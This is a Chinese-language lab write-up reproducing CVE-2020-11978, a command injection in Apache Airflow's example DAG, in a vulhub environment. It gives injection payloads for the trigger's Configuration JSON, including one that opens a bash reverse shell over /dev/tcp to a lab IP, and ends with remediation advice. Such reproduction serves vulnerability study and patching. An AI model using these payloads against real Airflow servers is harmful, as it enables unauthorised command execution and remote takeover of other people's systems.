# Airflow dag 命令注入漏洞

## 漏洞编号

```
CVE-2020-11978
```


## 漏洞描述

Airflow是一个使用python语言编写的data pipeline调度和监控工作流的平台

Airflow是通过DAG（Directed acyclic graph有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度


这个平台拥有和Hive，Presto，Mysql，HDFSPostgres等数据源之间交互的能力，并且提供了钩子（hook）使其拥有更好的扩展性。

除了一个命令行界面，该工具还提供了一个基于web的用户界面可以可视化管道的依赖关系，监控进度，触发任务等


Apache Aiflow是一款开源的，分布式任务调度框架，在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令


## 影响范围

Apache Airflow <= 1.10.10


## 环境配置

vulhub

```
# 初始化数据库
docker-compose run airflow-init
# 启动服务
docker-compose up -d
```





```
docker-compose ps
```



验证

访问192.168.23.134:8080




## 漏洞复现

访问192.168.23.134:8080,进入airflow管理端，将example_trigger_target_dag前面的Off改为On


进入example_trigger_target_dag页面，点击Trigger DAG，进入到调试页面




在Configuration JSON中输入：

```
{"message":"'\";touch /tmp/success;#"}
```




然后点击Trigger执行


进入容器中验证

```
docker ps
docker exec -it b4d77a9ca2c5  /bin/bash
ls /tmp
```





成功执行


尝试反弹shell

本地开启监听




```
{"message":"'\";bash -i >& /dev/tcp/192.168.23.134/283 0>&1;#"}
```



执行




成功弹回shell


## 修复建议

- 升级到最新版本

- 删除或禁用默认DAG（可自行删除或在配置文件中禁用默认DAGload_examples=False）